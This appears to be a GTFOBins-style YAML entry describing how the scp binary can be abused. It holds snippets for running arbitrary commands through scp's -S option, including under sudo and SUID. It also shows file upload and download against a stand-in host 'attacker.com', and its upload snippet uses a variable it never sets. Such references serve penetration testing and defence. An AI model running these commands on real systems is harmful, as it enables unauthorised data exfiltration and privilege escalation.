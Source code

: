 ```yaml
---
functions:
  execute-non-interactive:
  - code: |
      TF=$(mktemp)
      CMD="id"
      echo "$CMD" > "$TF"
      chmod +x "$TF"
      scp -S $TF x y:
  upload:
  - description: Send local file to a SSH server.
    code: |
      RPATH=user@attacker.com:~/file_to_save
      LPATH=file_to_send
      scp $LFILE $RPATH
  download:
  - description: Fetch a remote file from a SSH server.
    code: |
      RPATH=user@attacker.com:~/file_to_get
      LFILE=file_to_save
      scp $RPATH $LFILE
  sudo-enabled:
  - code: |
      TF=$(mktemp)
      CMD="id"
      echo "$CMD" > "$TF"
      chmod +x "$TF"
      sudo scp -S $TF x y:
  suid-limited:
  - code: |
      TF=$(mktemp)
      CMD="id"
      echo "$CMD" > "$TF"
      chmod +x "$TF"
      ./scp -S $TF a b:
---
```

